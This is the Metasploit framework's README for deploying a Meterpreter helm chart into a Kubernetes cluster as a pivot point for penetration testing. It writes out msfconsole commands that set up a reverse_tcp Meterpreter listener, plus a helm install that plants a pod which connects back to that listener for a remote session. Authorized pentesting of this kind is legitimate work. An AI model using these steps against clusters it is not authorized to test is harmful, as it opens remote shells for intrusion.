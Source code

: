 # Metasploit in Kubernetes

The most common workflow to test a Kubernetes environment with Metasploit is to target the Kubernetes API externally,
or through a compromised container - both of these workflows are currently supported directly within msfconsole.

An alternative to compromising a Kubernetes container to gain a Meterpreter session is to install the `meterpreter` helm chart into
a Kubernetes environment directly. This newly opened Meterpreter session will act as the pivot point for running additional
Metasploit modules, similar to the behavior of compromising an existing Kubernetes container with msfconsole.

## Installation

To install the Metasploit resources in to your Kubernetes environment: 

1. Make sure [Helm](https://helm.sh/) (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy Metasploit. You can install a local Kubernetes cluster using [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
   You can create local kind cluster by running  `make create-kind-cluster`
2. A penester should create a Metasploit listener from msfconsole:
```
use payload/linux/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
to_handler
```

3. Install meterpreter helm chart by running:

```sh
export LHOST="x.x.x.x"
export LPORT="4444"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lhost=$LHOST --set lport=$LPORT
```
4. If the listener from step 3 was created, ensure you now have a Meterpreter session in msfconsole

## Privileges

The Meterpreter container can be deployed with different privileges and permissions - see the `privileges` section within
https://github.com/rapid7/metasploit-framework/blob/master/kubernetes/meterpreter/values.yaml
[./kubernetes/meterpreter/values.yaml](values.yaml) for more details.

